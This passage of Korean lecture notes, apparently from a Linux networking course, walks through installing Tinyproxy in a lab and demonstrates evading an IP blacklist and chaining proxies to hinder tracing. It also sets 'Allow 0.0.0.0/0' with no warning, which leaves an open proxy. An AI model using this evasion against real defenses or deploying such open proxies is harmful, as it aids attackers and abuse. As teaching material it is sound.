6. **보안 우회 시나리오**: 블랙리스트 차단 우회 실습
7. **실전 활용 사례**: 북한 해킹 사례와 프록시 체인

---

## 📖 프록시 서버란?

### 🔍 프록시의 정의

**강사님의 경험담**:

> "예전에 제가 **와이프랑 연애하던 시절에** 저희 와이프가 은행에서 일을 한 적이 있어요... 그 당시 저희 세대는... 옛날에는 지금이야 인스타그램이니 뭐니 이런 거 하는데 **저희 때는 싸이월드가 있었는데**..."

**상황**:

- **문제**: 은행에서 싸이월드 차단
- **원인**: 업무 시간 중 과도한 SNS 사용
- **해결책**: 외부 프록시 서버 구축

**강사님의 해결 방법**:

> "여기 제가 여기다가 **프락시를 하나 만들었어요**. 프락시를 하나 만들고 프락시를 통해서 내가 이 컴퓨터에서 여러분 브라우저 프락시 설정한지 설정해놓고 **나 싸이월드 갈래라고 하면은** 싸이월드 갈래가 이쪽 프락시로 일단 도착하게 되고 이쪽 프락시가 서비스를 해줘서..."

### 🌐 프록시 동작 원리

#### 일반 접속 vs 프록시 접속



**프록시 흐름 상세**:

```mermaid
sequenceDiagram
    participant User as 사용자 PC<br/>(192.168.1.100)
    participant Firewall as 방화벽<br/>(차단 규칙)
    participant Proxy as Tinyproxy<br/>(외부 서버)
    participant Target as 목적지 사이트<br/>(싸이월드)

    User->>Firewall: 프록시 서버로 HTTP 요청
    Note over Firewall: 싸이월드 아님 → 통과
    Firewall->>Proxy: 요청 전달
    Proxy->>Target: 사용자 대신 싸이월드 요청
    Target->>Proxy: 싸이월드 응답
    Proxy->>Firewall: 응답 전달
    Firewall->>User: 사용자에게 전달
    Note over User: 싸이월드 접속 성공!
```

### 🛡️ 프록시의 실전 활용

#### 보안 우회 시나리오

**강사님의 설명**:

> "나중에 우리가 서버를 운영할 때 어? **이상한 네트워크 대역에서 들어왔네** 그러니까 보통 보면은 **브루트포스 공격**이나 이런 것들이 **특정 IP에서 계속 발생**을 한단 말이죠. 그 IP에서 접근을 차단을 하면은 그 IP 대신에 이제 **우회에서 들어오는 방법**을 찾게 돼요."

**공격 시나리오**:

```mermaid
graph LR
    A[공격자<br/>129번] -->|브루트포스 공격| B[웹 서버<br/>131번]
    B -->|로그 분석| C{관리자}
    C -->|차단 결정| D[방화벽 규칙<br/>129번 차단]

    A -.->|직접 접속 시도| D
    D -.->|❌ 차단됨| A

    E[공격자<br/>129번] -->|프록시 경유| F[Tinyproxy<br/>132번]
    F -->|새로운 IP로 위장| B
    B -->|로그: 132번에서 접속| G{관리자}
    G -.->|129번 아님<br/>정상으로 판단| B

    style D fill:#ffcccc
    style F fill:#ffffcc
    style B fill:#ccffff
```

**실제 사례: 북한 해킹**:

**강사님의 설명**:

> "실제로 막 해킹 사고 같은 거 일어났을 때 특히나 요즘 들어서 **북한에서 우리나라 해킹 많이 들어오잖아요**. 북한에서 우리나라 들어올 때 **북한 지역 네트워크에서 직접 우리나라로 들어오는 게 아니라** '북한의 소행으로 추정됩니다' 이러잖아요. 걔네들이 이렇게 **프록시나 다른 서버들을 거쳐서 지구 반대편으로 돌고 돌아서 한 네 군데 다섯 군데를 돌아가지고 우리나라에 들어오게 돼요**."

**프록시 체인 (Proxy Chaining)**:

```mermaid
graph LR
    A[북한<br/>공격자] --> B[프록시 1<br/>중국]
    B --> C[프록시 2<br/>러시아]
    C --> D[프록시 3<br/>브라질]
    D --> E[프록시 4<br/>독일]
    E --> F[한국<br/>목표 서버]

    F -->|로그 분석| G{보안팀}
    G -.->|독일 IP만 보임| H[추적 어려움]

    style A fill:#ffcccc
    style F fill:#ccffff
    style H fill:#ffffcc
```

**추적의 어려움**:

> "그러니까 실제로 다이렉트로 차단을 한다거나 이럴 수 있는 방법이 없는 거죠 **추적하기도 힘들고요**. 만약에 서버 관리자가 협조를 잘 해주면 추적을 할 텐데 지금 **프록시를 한 대만 썼지만 프록시를 여러 개 거칠 수도 있고요**."

---

## 🔧 Tinyproxy 설치

### 📋 준비 사항

#### 새로운 VM 생성

**강사님의 실습**:

> "프락시를 위해서 우리는 **클론을 하나씩 해볼까요**. 클론 다음 이니셜로 다음 링크드 클론 **프락시 서버**라는 거를 한번 만들어 볼게요."

**VM 클론 과정**:

```bash
VMware → 원본 VM 우클릭 → Manage → Clone
→ Next → Current state 선택 → Next
→ Create a linked clone 선택 → Next
→ Name: "프록시 서버" (또는 "Proxy Server")
→ Finish
```

**강사님의 용량 설명**:

> "여러분 생각만큼 그렇게 크지가 않아요... 프록시 서버 같은 거 마우스 우클릭 해서 전체 이 안에 이제 얘 관련된 파일들이 다 있어요. 이렇게 해서 속성을 이렇게 보시면 실제 지금 우리가 이 의념체 하나 맞는 게 **900메가 정도 밖에 안 되거든요**."

**Linked Clone 용량 비교**:

| **VM 유형** | **디스크 용량** | **설명** |
|:---:|:---:|:---|
| 원본 VM | ~8GB | Full Ubuntu 24.04 설치 |
| Linked Clone (웹 서버) | ~900MB | 차이점만 저장 |
| Linked Clone (WAS 서버) | ~900MB | 차이점만 저장 |
| Linked Clone (프록시 서버) | ~900MB | 차이점만 저장 |

**강사님의 조언**:

> "그래서 **하드 클론을 하게 되면 용량이 8기가씩 늘어나서 꽤 클 텐데** 우리가 이렇게 **심볼릭 클론을 했기 때문에 링크드 클론을 했기 때문에** 사이즈가 그렇게 크지 않을 거예요."

#### IP 주소 확인

**부팅 후 IP 확인**:

```bash
# VM 부팅 후 로그인
yoo@proxy:~$ ifconfig
```

**출력 예시**:

```bash
ens33: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.186.132  netmask 255.255.255.0  broadcast 192.168.186.255
        inet6 fe80::20c:29ff:fe3a:5678  prefixlen 64  scopeid 0x20<link>
        ...
```

**IP 주소 기록**:

- **프록시 서버**: 192.168.186.132
- **웹 서버**: 192.168.186.131
- **WAS 서버**: 192.168.186.129

### 📦 Tinyproxy 패키지 설치

#### Step 1: 관리자 권한 획득

```bash
sudo su
```

**한글 깨짐 문제 (콘솔 사용 시)**:

**강사님의 설명**:

> "이렇게 한글이 다 깨지죠. 커미널에서 접속하면 아마 한글이 안 깨질 건데 **콘솔은 한글이 다 깨지고 있어요**."

**해결 방법**:

```bash
# 언어 환경을 영문으로 변경
export LANGUAGE=C
```

**설명**:

| **환경 변수** | **의미** | **효과** |
|:---:|:---|:---|
| `LANGUAGE=C` | C 로케일 (기본 영문) | 모든 메시지 영문 출력 |
| `LANGUAGE=ko_KR.UTF-8` | 한글 UTF-8 | 한글 출력 (콘솔에서 깨짐) |

**강사님의 팁**:

> "KR로 돼있을 때 한글로 돼있을 때 그 뭐야, 한글을 출력하려고 하다가 **콘솔에서 화면이 깨지기 때문에** 다시 이렇게 하고 NMTY라고 이렇게 실행을 해보시면 영문으로 메뉴가 나타나게 될 거예요."

#### Step 2: 패키지 목록 업데이트

```bash
apt-get update
```

**실행 결과**:

```bash
Hit:1 http://kr.archive.ubuntu.com/ubuntu noble InRelease
Get:2 http://kr.archive.ubuntu.com/ubuntu noble-updates InRelease [126 kB]
Fetched 126 kB in 1s (126 kB/s)
Reading package lists... Done
```

#### Step 3: Tinyproxy 설치

```bash
apt-get install -y tinyproxy
```

**한 줄 명령 (연속 실행)**:

```bash
apt-get update && apt-get install -y tinyproxy
```

**강사님의 설명**:

> "apt-get 업데이트 한 다음에 앤드 앤드 apt-get 업데이트가 **성공을 한다면이죠** apt-get 업데이트 명령어가 성공을 한다면 **그 다음에 apt-get install tinyproxy를 해라** 라고 이렇게 실행을 하는 거죠."

**명령어 연산자**:

| **연산자** | **의미** | **동작** |
|:---:|:---|:---|
| `&&` | AND | 왼쪽 성공 시 오른쪽 실행 |
| `\|\|` | OR | 왼쪽 실패 시 오른쪽 실행 |
| `;` | 순차 실행 | 성공/실패 관계없이 실행 |

**설치 출력**:

```bash
Reading package lists... Done
Building dependency tree... Done
Reading state information... Done
The following NEW packages will be installed:
  tinyproxy
0 upgraded, 1 newly installed, 0 to remove and 0 not upgraded.
Need to get 87.2 kB of archives.
After this operation, 234 kB of additional disk space will be used.
Get:1 http://kr.archive.ubuntu.com/ubuntu noble/universe amd64 tinyproxy amd64 1.11.1-1 [87.2 kB]
Fetched 87.2 kB in 0s (234 kB/s)
Selecting previously unselected package tinyproxy.
(Reading database ... 123456 files and directories currently installed.)
Preparing to unpack .../tinyproxy_1.11.1-1_amd64.deb ...
Unpacking tinyproxy (1.11.1-1) ...
Setting up tinyproxy (1.11.1-1) ...
Created symlink /etc/systemd/system/multi-user.target.wants/tinyproxy.service → /lib/systemd/system/tinyproxy.service.
```

**설치 확인**:

```bash
몇 키로가 필요한데 설치하겠습니까? → yes
쭉 설치를 해줘요
```

#### Step 4: 서비스 상태 확인

```bash
# 프로세스 및 포트 확인
netstat -antp | grep tiny
```

**출력 예시**:

```bash
tcp        0      0 0.0.0.0:8888            0.0.0.0:*               LISTEN      12345/tinyproxy
```

**출력 해석**:

| **항목** | **값** | **의미** |
|:---:|:---|:---|
| `tcp` | - | TCP 프로토콜 |
| `0.0.0.0:8888` | - | 모든 인터페이스의 8888 포트 |
| `0.0.0.0:*` | - | 모든 클라이언트 허용 (설정 전) |
| `LISTEN` | - | 연결 대기 중 |
| `12345/tinyproxy` | - | PID 12345, tinyproxy 프로세스 |

**강사님의 확인**:

> "넷 스테이트 한번 볼까요? stat-antp-graph 이번에는 **tiny라는 문자로 검색**을 해볼까요. 그랬더니 tinyproxy가 지금 어때요? **0.0.0.0으로 8888 포트를 열고 서비스를 하고 있죠**. 8888 포트가 프락시 서버의 포트가 되는 거예요."

---

## ⚙️ Tinyproxy 설정

### 📝 설정 파일 위치

**설정 파일 찾기**:

**강사님의 실습**:

> "일단 ETC 밑에 가서 찾아 봐야죠. 이 tc 밑에 가서 **tiny**라고 치고 뒤는 모르겠지만 **탭을 한번 쳐보세요**. 그랬더니 tinyproxy라고 완성이 되네요."

```bash
cd /etc
ls -d tiny*  # 또는 탭 자동완성
```

**출력**:

```bash
tinyproxy/
```

**설정 파일 확인**:

```bash
ls /etc/tinyproxy/
```

**출력**:

```bash
tinyproxy.conf
```

**강사님의 확인**:

> "이 밑에 config가 있구나. 탭을 한번 더 쳤더니 tinyproxy는 **파일은 하나밖에 없는 것 같아요**."

### 🔍 설정 파일 구조

#### 전체 설정 보기

```bash
vi /etc/tinyproxy/tinyproxy.conf
```

**주요 설정 항목**:

```conf
##
## tinyproxy.conf -- tinyproxy daemon configuration file
##

# User/Group: 실행 사용자 및 그룹
User tinyproxy
Group tinyproxy

# Port: 프록시 서버 포트
Port 8888

# Listen: 바인딩 IP (기본값: 모든 인터페이스)
#Listen 192.168.0.1

# Bind: 아웃바운드 연결에 사용할 IP
#Bind 192.168.0.1

# BindSame: 클라이언트와 동일한 IP로 아웃바운드 연결
#BindSame yes

# Timeout: 연결 타임아웃 (초)
Timeout 600

# ErrorFile: 에러 페이지 경로
#ErrorFile 404 "/usr/share/tinyproxy/404.html"

# DefaultErrorFile: 기본 에러 페이지
#DefaultErrorFile "/usr/share/tinyproxy/default.html"

# StatFile: 상태 페이지 경로
StatFile "/usr/share/tinyproxy/stats.html"

# LogFile: 로그 파일 경로
LogFile "/var/log/tinyproxy/tinyproxy.log"

# LogLevel: 로그 레벨
LogLevel Info

# PidFile: PID 파일 위치
PidFile "/run/tinyproxy/tinyproxy.pid"

# MaxClients: 최대 동시 연결 수
MaxClients 100

# MinSpareServers/MaxSpareServers: 프로세스 풀 설정
MinSpareServers 5
MaxSpareServers 20

# StartServers: 시작 시 프로세스 수
StartServers 10

# MaxRequestsPerChild: 자식 프로세스 최대 요청 처리 수
MaxRequestsPerChild 0

# Allow: 접근 허용 IP/네트워크 ← 🔥 중요!
Allow 127.0.0.1
Allow ::1

# ViaProxyName: Via 헤더에 표시할 이름
#ViaProxyName "tinyproxy"

# DisableViaHeader: Via 헤더 비활성화 (익명성 향상)
#DisableViaHeader Yes
```

### 🔐 접근 제어 설정 (Allow)

#### 기본 설정 (로컬만 허용)

**강사님의 설명**:

> "그런데 아마 이게 기본적으로 tinyproxy, 프록시를 열어도 **외부에서 접근이 다 막혀 있었던 걸로 저는 기억하거든요**. 그러면 일단은 tinyproxy를 쓸 수 있는 **허가를 내줘야 되는데** 사용 허가를 어떻게 해주냐면 **vi로 설정을 편집**할 건데..."

**기본 Allow 설정**:

```conf
# Allow local connections only
Allow 127.0.0.1      # IPv4 루프백
Allow ::1            # IPv6 루프백
```

**의미**:

- **127.0.0.1**: 로컬호스트 (서버 자신)만 프록시 사용 가능
- **::1**: IPv6 로컬호스트
- **외부 접속**: 거부됨

#### Allow 설정 찾기

**강사님의 검색 방법**:

> "아마 내가 하는 문자 **alo를 한번 검색**해 볼게요. alo-host upstream 이런 걸로 왔는데... 여기 있네요. alo라는 거를 보통 해 줄 때는 alo라고 해서 허용을 하고 막을 때는 deny라고 해서 막으니까..."

**vi 검색 명령**:

```vim
/alo         " 'alo' 문자열 검색 (Allow 찾기)
n            " 다음 검색 결과로 이동
N            " 이전 검색 결과로 이동
```

**찾은 위치**:

```conf
#
# Access Control
#

# Allow: 접근 허용할 IP 또는 네트워크
Allow 127.0.0.1
Allow ::1
```

#### ChatGPT를 활용한 설정 확인

**강사님의 접근**:

> "요즘에서 이제 **채취피티의 힘을 한번 빌려 보죠**. 설정에서 **모든 IP가 서비스를 이용하게 하려면 alo를 어떻게 설정해야 하나** 라고 이렇게 물어볼게요."

**ChatGPT 질문**:

```
tinyproxy 설정에서 모든 IP가 서비스를 이용하게 하려면
Allow를 어떻게 설정해야 하나?
```

**ChatGPT 응답 (요약)**:

```
모든 IP에서 접근을 허용하려면:

1. 기존 Allow 설정을 주석 처리:
   #Allow 127.0.0.1
   #Allow ::1

2. 전체 허용 설정 추가:
   Allow 0.0.0.0/0

설명:
- 0.0.0.0/0: 모든 IPv4 주소 허용
- /0은 네트워크 대역을 의미 (CIDR 표기법)
```

**강사님의 확인**:

> "그러네 **0.0.0.0을 써주면 된다**고 이렇게 나오네요. 기존 설정은 이렇게 해지하고 이렇게 써주면 된대요."

#### 설정 변경 실습

**Before (기본 설정)**:

```conf
# Access Control
Allow 127.0.0.1
Allow ::1
```

**After (모든 IP 허용)**:

```conf
# Access Control
# 기존 설정 주석 처리
#Allow 127.0.0.1
#Allow ::1

# 모든 IP 허용
Allow 0.0.0.0/0
```

**강사님의 실습**:

> "앞에다가 **#을 붙여서** 이 #의 의미는 뭐예요? **주석**이죠. #을 붙여서 주석 처리를 했어요. config에서 읽지 마라. 그리고 나는 밑에다가 **alo 0.0.0.0에다가 0을 이렇게 추가해줬어요**."

**CIDR 표기법 설명**:

| **CIDR** | **의미** | **허용 범위** |
|:---:|:---|:---|
| `0.0.0.0/0` | 모든 IPv4 주소 | 0.0.0.0 ~ 255.255.255.255 |
| `192.168.0.0/24` | 192.168.0.x 대역 | 192.168.0.0 ~ 192.168.0.255 |
| `192.168.0.0/16` | 192.168.x.x 대역 | 192.168.0.0 ~ 192.168.255.255 |
| `10.0.0.0/8` | 10.x.x.x 대역 | 10.0.0.0 ~ 10.255.255.255 |

**vi 편집 과정**:

```vim
1. vi /etc/tinyproxy/tinyproxy.conf 실행
2. /Allow 검색으로 이동
3. i 입력 (Insert 모드)
4. Allow 127.0.0.1 앞에 # 추가
5. Allow ::1 앞에 # 추가
6. 새 줄에 Allow 0.0.0.0/0 입력
7. Esc 키
8. :wq 입력 (저장하고 종료)
```

### 🔄 설정 적용 (서비스 재시작)

#### systemctl 명령어

```bash
systemctl restart tinyproxy
```

**강사님의 실습**:

> "설정을 다시 인식시켜줄려면 **재구동해야죠**. systemctl restart tinyproxy 이렇게 해서..."

**경고 메시지 처리**:

```bash
Warning: The unit file, source configuration file or drop-ins of tinyproxy.service changed on disk. Run 'systemctl daemon-reload' to reload units.
```

**해결 방법**:

```bash
# 1. systemd 데몬 재로드
systemctl daemon-reload

# 2. 서비스 재시작
systemctl restart tinyproxy
```

**강사님의 설명**:

> "그랬더니 또 **systemctl daemon-reload 해줘라** 라고 나오네. 가끔 이게 나오네. systemctl daemon-reload... 메시지 안 나오는 친구들도 많을 거예요."

**서비스 상태 확인**:

```bash
systemctl status tinyproxy
```

**정상 출력**:

```bash
● tinyproxy.service - Tinyproxy lightweight HTTP Proxy
     Loaded: loaded (/lib/systemd/system/tinyproxy.service; enabled; vendor preset: enabled)
     Active: active (running) since Thu 2025-12-19 14:45:32 KST; 5s ago
       Docs: https://tinyproxy.github.io/
   Main PID: 12345 (tinyproxy)
      Tasks: 6 (limit: 4556)
     Memory: 2.1M
        CPU: 15ms
     CGroup: /system.slice/tinyproxy.service
             ├─12345 /usr/bin/tinyproxy -c /etc/tinyproxy/tinyproxy.conf
             ├─12346 /usr/bin/tinyproxy -c /etc/tinyproxy/tinyproxy.conf
             └─12347 /usr/bin/tinyproxy -c /etc/tinyproxy/tinyproxy.conf

Dec 19 14:45:32 proxy systemd[1]: Starting Tinyproxy lightweight HTTP Proxy...
Dec 19 14:45:32 proxy systemd[1]: Started Tinyproxy lightweight HTTP Proxy.
Dec 19 14:45:32 proxy tinyproxy[12345]: INFO      Initializing tinyproxy ...
Dec 19 14:45:32 proxy tinyproxy[12345]: INFO      Listening on port 8888
```

**확인 포인트**:

- ✅ `Active: active (running)`: 서비스 정상 실행
- ✅ `Listening on port 8888`: 8888 포트 리스닝
- ✅ 여러 자식 프로세스 실행 (프로세스 풀)

---

## 🌐 wget을 통한 프록시 사용

### 🔍 wget 프록시 옵션

#### ChatGPT를 활용한 옵션 확인

**강사님의 질문**:

> "근데 내가 옵션을 잘 모르니까 이것도 여기에 얘한테 물어볼게요. **wget을 이용할 때 프록시를 설정하는 옵션은** 이렇게 해서 한번 물어볼게요."

**ChatGPT 질문**:

```
wget을 이용할 때 프록시를 설정하는 옵션은?
```

**ChatGPT 응답 (요약)**:

```bash
# 방법 1: 명령행 옵션
wget --use-proxy=yes --http-proxy=http://프록시IP:포트 목적지URL

# 방법 2: 환경 변수
export http_proxy=http://프록시IP:포트
export https_proxy=http://프록시IP:포트
wget 목적지URL

# 방법 3: ~/.wgetrc 파일
http_proxy = http://프록시IP:포트
https_proxy = http://프록시IP:포트
use_proxy = on
```

#### wget 프록시 옵션 상세

**옵션 설명**:

| **옵션** | **의미** | **예시** |
|:---:|:---|:---|
| `--use-proxy=yes` | 프록시 사용 활성화 | - |
| `--http-proxy=URL` | HTTP 프록시 서버 지정 | `--http-proxy=http://192.168.186.132:8888` |
| `--https-proxy=URL` | HTTPS 프록시 서버 지정 | `--https-proxy=http://192.168.186.132:8888` |
| `--no-proxy` | 프록시 사용 안 함 | - |

### 🧪 프록시 테스트 실습

#### 환경 구성

**서버 구성**:

```
192.168.186.129 (WAS 서버)     ← 여기서 wget 실행
192.168.186.131 (웹 서버)      ← 목적지 (nginx)
192.168.186.132 (프록시 서버)  ← Tinyproxy
```

**목표**:

- WAS 서버에서 wget으로 웹 서버에 접속
- 프록시를 경유하여 IP를 132번으로 위장
- 웹 서버 로그에서 132번 IP 확인

#### Step 1: 웹 서버 로그 모니터링

**웹 서버 (131번)에서 실행**:

```bash
tail -f /var/log/nginx/access.log
```

**강사님의 설명**:

> "이쪽에서도 이제 로그를 보면 **tail-f 옵션으로 본다**고 했죠. 바 밑에 로그 밑에 nginx 밑에 access-log를 이렇게 보면은... 이렇게 메시지가 남을 거고 여기에서 **내가 페이지에 접근할 때마다 어디에서 접근하는지** access-log가 남을 거예요."

**로그 포맷**:

```
클라이언트IP - - [날짜/시간] "요청메소드 경로 프로토콜" 상태코드 크기 "Referer" "User-Agent"
```

#### Step 2: WAS 서버에서 직접 접속 (프록시 없이)

**명령어**:

```bash
wget http://192.168.186.131
```

**WAS 서버 출력**:

```bash
--2025-12-19 14:50:15--  http://192.168.186.131/
Connecting to 192.168.186.131:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 615 [text/html]
Saving to: 'index.html'

index.html          100%[===================>]     615  --.-KB/s    in 0s

2025-12-19 14:50:15 (52.3 MB/s) - 'index.html' saved [615/615]
```

**웹 서버 로그**:

```
192.168.186.129 - - [19/Dec/2025:14:50:15 +0900] "GET / HTTP/1.1" 200 615 "-" "Wget/1.21.3"
```

**로그 분석**:

- **접속 IP**: `192.168.186.129` ← WAS 서버 IP 그대로 노출
- **User-Agent**: `Wget/1.21.3` ← wget 사용 확인

**강사님의 설명**:

> "자 지금 제가 웹에다가 페이지를 요청했는데... 웹 쪽에서는 지금 어때요? **유저에이전트가 여기에서는 wget이라는 유저에이전트가 남았죠** 그쵸. 근데 리퀘스트를 날릴 때 나는 wget입니다 라는 정보를 가지고 날렸던 거예요."

#### Step 3: WAS 서버에서 프록시 경유 접속

**명령어**:

```bash
wget --use-proxy=yes \
     --http-proxy=http://192.168.186.132:8888 \
     http://192.168.186.131/index.html
```

**강사님의 실습**:

> "자, 이렇게 하고 접속 테스트를 해볼 거예요. 접속 테스트는 이렇게 wget 명령을 써서 해볼 건데요... **use-proxy는 yes**라고 하고 다시 이 옵션 주고 **http-proxy는 http-proxy.ip가 뭐였죠?** proxy.ip가 ifconfig **192.168.186.132** 였어요."

**명령어 분해**:

```bash
wget \
  --use-proxy=yes \                              # 프록시 사용
  --http-proxy=http://192.168.186.132:8888 \    # 프록시 서버 지정
  http://192.168.186.131/index.html              # 목적지 URL
```

**WAS 서버 출력**:

```bash
--2025-12-19 14:55:32--  http://192.168.186.131/index.html
Connecting to 192.168.186.132:8888... connected.
Proxy request sent, awaiting response... 200 OK
Length: 615 [text/html]
Saving to: 'index.html.1'

index.html.1        100%[===================>]     615  --.-KB/s    in 0s

2025-12-19 14:55:32 (48.7 MB/s) - 'index.html.1' saved [615/615]
```

**출력 분석**:

- `Connecting to 192.168.186.132:8888`: ✅ 프록시 서버로 연결
- `Proxy request sent`: ✅ 프록시를 통한 요청
- `index.html.1`: 이미 index.html이 있어서 .1 붙음

**웹 서버 로그**:

```
192.168.186.132 - - [19/Dec/2025:14:55:32 +0900] "GET /index.html HTTP/1.1" 200 615 "-" "Wget/1.21.3"
```

**로그 분석**:

- **접속 IP**: `192.168.186.132` ← 🔥 **프록시 서버 IP로 위장 성공!**
- **실제 접속**: WAS(129번) → 프록시(132번) → 웹(131번)
- **웹 서버 인식**: 132번에서 접속한 것으로 보임

**강사님의 확인**:

> "이렇게 했더니 index.html을 다시 받아왔어요. 이렇게 수행을 하고 **웹 쪽에 가보면 웹 쪽에는 어때요?** 이제 이쪽에서 아까 접근했던 와스 서버 얘가 수상한데? 하고 차단이 됐지만 **얘는 다른 지역의 프록시를 다시 통해서 이렇게 돌아서 우회해서 다시 들어올 수 있었어요**."

---

## 📊 로그 분석

### 📁 Tinyproxy 로그 확인

#### 로그 파일 위치

```bash
/var/log/tinyproxy/tinyproxy.log
```

**로그 확인 명령어**:

```bash
# 전체 로그 보기
cat /var/log/tinyproxy/tinyproxy.log

# 마지막 20줄 보기
tail -20 /var/log/tinyproxy/tinyproxy.log

# 실시간 모니터링
tail -f /var/log/tinyproxy/tinyproxy.log
```

**로그 예시**:

```
INFO     Dec 19 14:55:32 [12346]: Connect (file descriptor 6): 192.168.186.129
INFO     Dec 19 14:55:32 [12346]: Request: GET http://192.168.186.131/index.html HTTP/1.1
INFO     Dec 19 14:55:32 [12346]: Established connection to 192.168.186.131:80 using file descriptor 7.
INFO     Dec 19 14:55:32 [12346]: Closed connection to client: 192.168.186.129
INFO     Dec 19 14:55:32 [12346]: Closed connection to remote host: 192.168.186.131
```

**로그 분석**:

| **항목** | **값** | **의미** |
|:---:|:---|:---|
| `Connect` | `192.168.186.129` | WAS 서버가 프록시에 접속 |
| `Request` | `GET http://192.168.186.131/...` | 프록시가 받은 요청 |
| `Established connection` | `192.168.186.131:80` | 프록시가 웹 서버에 연결 |
| `Closed connection to client` | `192.168.186.129` | WAS와의 연결 종료 |
| `Closed connection to remote` | `192.168.186.131` | 웹 서버와의 연결 종료 |

### 📈 접속 흐름 비교

#### 프록시 없이 직접 접속

```mermaid
sequenceDiagram
    participant WAS as WAS 서버<br/>129번
    participant Web as 웹 서버<br/>131번

    WAS->>Web: wget http://192.168.186.131/
    Note over Web: 로그: 129번에서 접속
    Web->>WAS: index.html 응답
```

**웹 서버 로그**:

```
192.168.186.129 - - [19/Dec/2025:14:50:15 +0900] "GET / HTTP/1.1" 200 615
```

#### 프록시 경유 접속

```mermaid
sequenceDiagram
    participant WAS as WAS 서버<br/>129번
    participant Proxy as Tinyproxy<br/>132번
    participant Web as 웹 서버<br/>131번

    WAS->>Proxy: wget --http-proxy=132:8888
    Note over Proxy: 로그: 129번이 프록시 사용
    Proxy->>Web: GET /index.html (프록시가 대신 요청)
    Note over Web: 로그: 132번에서 접속
    Web->>Proxy: index.html 응답
    Proxy->>WAS: 응답 전달
```

**웹 서버 로그**:

```
192.168.186.132 - - [19/Dec/2025:14:55:32 +0900] "GET /index.html HTTP/1.1" 200 615
```

**Tinyproxy 로그**:

```
INFO: Connect: 192.168.186.129
INFO: Request: GET http://192.168.186.131/index.html
INFO: Established connection to 192.168.186.131:80
```

---

## 🛡️ 보안 우회 시나리오

### 🔒 블랙리스트 차단 우회

#### 시나리오

**상황**:

1. **공격자 (WAS 129번)**: 웹 서버에 브루트포스 공격 시도
2. **관리자**: 로그 분석 후 129번 IP 차단
3. **공격자**: 프록시(132번)를 경유하여 재공격
4. **결과**: 웹 서버는 132번으로 인식, 차단 우회 성공

**강사님의 설명**:

> "만약에 지금 여기가 제가 장비가 없으니까 **와스티에서 웹으로 접근을 했는데 웹 서버에서 모니터링 하고 있다가 여기에서 이상한 코드가 나한테 자꾸 날아온다** 얘가 블랙리스트에 올려 차단시켜 **이 IP를 차단하잖아요**. 그럼 이 친구는 다시 이 사이트에 접속하기 위해서 어떻게 하겠어요? **프락시 서버를 거쳐서 우회에서 공격을 시도하겠죠**."

#### 차단 및 우회 흐름도

```mermaid
graph TB
    A[1단계: 직접 공격] --> B[WAS 129번<br/>브루트포스 공격]
    B --> C[웹 서버 131번]
    C --> D[로그 분석]
    D --> E[관리자 조치<br/>129번 IP 차단]

    F[2단계: 차단 확인] --> G[WAS 129번<br/>재접속 시도]
    G --> H{방화벽}
    H -->|차단됨| I[❌ 접속 실패]

    J[3단계: 우회 공격] --> K[WAS 129번]
    K --> L[Tinyproxy 132번<br/>경유]
    L --> M[웹 서버 131번]
    M --> N[로그: 132번 접속<br/>✅ 정상으로 판단]

    style E fill:#ffcccc
    style I fill:#ffcccc
    style N fill:#ccffcc
```

#### 방화벽 규칙 시뮬레이션

**iptables 차단 규칙 (예시)**:

```bash
# 129번 IP 차단
sudo iptables -A INPUT -s 192.168.186.129 -j DROP
```

**차단 확인**:

```bash
# WAS 서버에서 직접 접속 시도
wget http://192.168.186.131/

# 출력
Connecting to 192.168.186.131:80... failed: Connection refused.
```

**프록시 우회 성공**:

```bash
# 프록시를 통한 접속
wget --http-proxy=http://192.168.186.132:8888 http://192.168.186.131/

# 출력
--2025-12-19 15:00:00--  http://192.168.186.131/
Connecting to 192.168.186.132:8888... connected.
Proxy request sent, awaiting response... 200 OK
```

### 🌍 다중 프록시 체인 (Advanced)

#### 프록시 체인 개념

**강사님의 설명**:

> "그래서 일부러 여기저기 옮겨다니죠 **추적이 쉽지 않기 위해서**... 지금 프록시를 한 대만 썼지만 **프록시를 여러 개 거칠 수도 있고요**. 혹은 제가 프록시의 개념이 아니라 **SSH나 터미널로 여기저기 옮겨가 가지고 그쪽에서 또 공격을 할 수도 있는 거고** 그런 거죠."

**다중 프록시 체인**:

```mermaid
graph LR
    A[공격자<br/>실제 IP] --> B[프록시 1<br/>국가 A]
    B --> C[프록시 2<br/>국가 B]
    C --> D[프록시 3<br/>국가 C]
    D --> E[목표 서버<br/>한국]

    E -->|로그 기록| F[국가 C IP만<br/>보임]

    style A fill:#ffcccc
    style E fill:#ccffff
    style F fill:#ffffcc
```

#### ProxyChains 도구 (참고)

**설치 및 사용**:

```bash
# 설치
sudo apt-get install -y proxychains4

# 설정 파일 편집
sudo vi /etc/proxychains4.conf
```

**설정 예시**:

```conf
# /etc/proxychains4.conf

# 프록시 체인 모드
strict_chain   # 순서대로 모두 거침
#dynamic_chain # 일부 실패 시 건너뜀
#random_chain  # 랜덤 순서로 거침

[ProxyList]
# 프록시 1
http 192.168.186.132 8888

# 프록시 2 (예시)
http 10.0.0.50 3128

# 프록시 3 (예시)
socks5 203.0.113.100 1080
```

**사용 예시**:

```bash
# wget을 프록시 체인으로 실행
proxychains4 wget http://192.168.186.131/
```

---

## ✅ 학습 체크리스트

이번 섹션 학습 후 다음 항목을 확인하세요:

### 프록시 개념
- [ ] 프록시 서버의 역할을 설명할 수 있는가?
- [ ] 프록시를 통한 IP 위장 원리를 이해했는가?
- [ ] 프록시 체인의 개념을 아는가?

### Tinyproxy 설치
- [ ] apt-get으로 Tinyproxy를 설치할 수 있는가?
- [ ] netstat으로 서비스 포트를 확인할 수 있는가?
- [ ] systemctl로 서비스를 관리할 수 있는가?

### 설정 관리
- [ ] /etc/tinyproxy/tinyproxy.conf 파일을 편집할 수 있는가?
- [ ] Allow 설정의 의미를 이해했는가?
- [ ] CIDR 표기법 (예: 0.0.0.0/0)을 아는가?

### wget 프록시 사용
- [ ] wget의 --http-proxy 옵션을 사용할 수 있는가?
- [ ] 프록시 경유 접속 흐름을 이해했는가?

### 로그 분석
- [ ] nginx access.log를 확인할 수 있는가?
